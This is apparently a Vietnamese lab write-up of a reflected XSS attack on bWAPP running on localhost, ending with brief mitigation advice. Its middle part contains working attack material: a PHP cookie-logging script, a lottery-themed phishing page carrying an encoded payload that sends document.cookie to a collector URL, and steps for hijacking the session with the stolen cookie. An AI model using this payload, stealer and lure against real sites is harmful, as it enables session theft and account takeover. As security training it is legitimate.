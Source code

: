 Bước 1: Xác định vị trí có thể dính XSS
Thử nhập họ tên và nhận được kết quả

![image](https://github.com/user-attachments/assets/34804180-fbab-4493-b02e-6a7296ad0bb2)

Kết quả trả về hiển thị ‘ Welcome Tran Van Thiep’. Từ đó có thể xác định có
khả năng bị dính lỗi XSS

Do là hoạt động theo phương thức GET nên có thể thấy dữ liệu được truyền đi 
kèm theo URL.

![image](https://github.com/user-attachments/assets/b2a93875-390a-4994-8316-65c6e540112f)

Bước 2: Kiểm tra lỗi XSS

Sau khi đã xác định được vị trí có khả năng mắc lỗi XSS, tiến hành kiểm tra 
bằng cách thử truyền vào 1 đoạn mã java script **<script>alert("XSS")</script>** để
thực hiện tạo 1 popup thông báo để kiểm tra xem site có bị lỗi XSS hay không?

![image](https://github.com/user-attachments/assets/8867814d-0762-40c0-a74a-6ec7c2a0430c)

Vậy là đã chắc chắn web vulnerable với XSS, ta sẽ tiến hành khai thác bằng kỹ thuật đánh cắp cookie:

Code php crawl cookie:

```php
<?php
    if(isset($_GET['cookie']))
    {
        $cookie = $_GET['cookie'];
        // Mở file cookie.txt, tham số a nghĩa là file này mở chỉ để write chứ không scan hay read
        $f=fopen('cookie.txt','a');
        // Ta write địa chỉ trang web mà ở trang đó bị ta chèn script.
        fwrite($f,$_SERVER['HTTP_REFERER']);
        // Ghi giá trị cookie
        fwrite($f,". Cookie la: ".$cookie." \n");
        // Đóng file lại
        fclose($f);
    }
?>
```

* Tạo một url phishing
```html
<html>
    <head>
        <title>Lottery</title>
    </head>
    <body>
	    <h1 align="center">CONGRATULATIONS!!!</h1>
	    <h1 align="center">YOU WON!!!</h1>
	    Click this <a href="http://localhost/bwapp/xss_get.php?firstname=%3Cscript%3Ewindow.open%28%22http%3A%2F%2Flocalhost%2Fget.php%3Fcookie%3D%22%2Bdocument.cookie%29%3C%2Fscript%3E&lastname=A&form=submit">link</a> to see your prize
    </body>
</html>
```
Phần bị mã hóa: 	   
```javascript
<script>window.open("http://localhost/get.php?cookie="+document.cookie)</script>
```

Tiếp theo, lừa người dùng click vào link phishing

![image](https://github.com/user-attachments/assets/b11b655f-febd-44f3-8afe-0df393e30ed0)

Khi mục tiêu ấn click vào link sẽ bị chuyển hướng tới web đã bị đệm javascript, sau đó sẽ bị crawl cookie về cookie.txt tại máy attacker:

![image](https://github.com/user-attachments/assets/7dd1b4e2-8b66-4523-847b-f93117a7cf0f)

Copy cookie và vào trình duyệt paste cái cookie này vào

![image](https://github.com/user-attachments/assets/1f7734b6-bfe2-4068-b3da-bf2efafca3c7)

Kết quả sau khi add cookie ta đã login mà không cần mật khẩu

![image](https://github.com/user-attachments/assets/79a836ee-6dcc-4d39-8b35-ae3dc4afbf0c)

### Cách khắc phục
+ Lọc và kiểm tra dữ liệu đầu vào
++ Đảm bảo rằng mọi dữ liệu đầu vào từ người dùng đều được kiểm tra và làm sạch trước khi được sử dụng trong trang web.
++ Xóa bỏ hoặc mã hóa các ký tự đặc biệt có thể được sử dụng trong tấn công XSS (như <, >, ", ', &).
++ Sử dụng các thư viện hoặc công cụ hỗ trợ như OWASP AntiSamy, DOMPurify để làm sạch đầu vào.
+ Thoát ký tự đầu ra
++ Đối với các ngôn ngữ kịch bản như HTML, JavaScript, thoát ký tự đặc biệt trước khi đưa dữ liệu từ người dùng ra trang web.
**
